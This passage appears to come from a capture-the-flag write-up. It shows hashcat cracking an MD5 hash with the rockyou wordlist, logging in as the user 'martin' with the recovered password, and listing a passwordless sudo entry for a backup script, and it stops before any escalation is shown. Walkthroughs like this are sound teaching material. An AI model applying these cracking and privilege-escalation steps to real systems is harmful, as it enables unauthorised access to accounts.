 ```bash
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 3de6f30c4a09c27fc71932bfc68474be
Time.Started.....: Tue Jul 22 05:37:50 2025 (1 sec)
Time.Estimated...: Tue Jul 22 05:37:51 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  8025.0 kH/s (0.29ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5234688/14344384 (36.49%)
Rejected.........: 0/5234688 (0.00%)
Restore.Point....: 5222400/14344384 (36.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: nairb234 -> nabete
Hardware.Mon.#1..: Temp: 55c Util: 10%

Started: Tue Jul 22 05:37:40 2025
```

The password of martin is successfully cracked : `nafeelswordsmaster`
We can now log in as martin :
```bash
$ su martin
password: nafeelswordsmaster
$ whoami
martin
```

When logged in as martin, we can see that he can execute a specific command as sudo, without password :
```bash
$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

Let's try to understand this script :
```bash
$ cat  /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

...

/usr/bin/backy "$json_file"
```
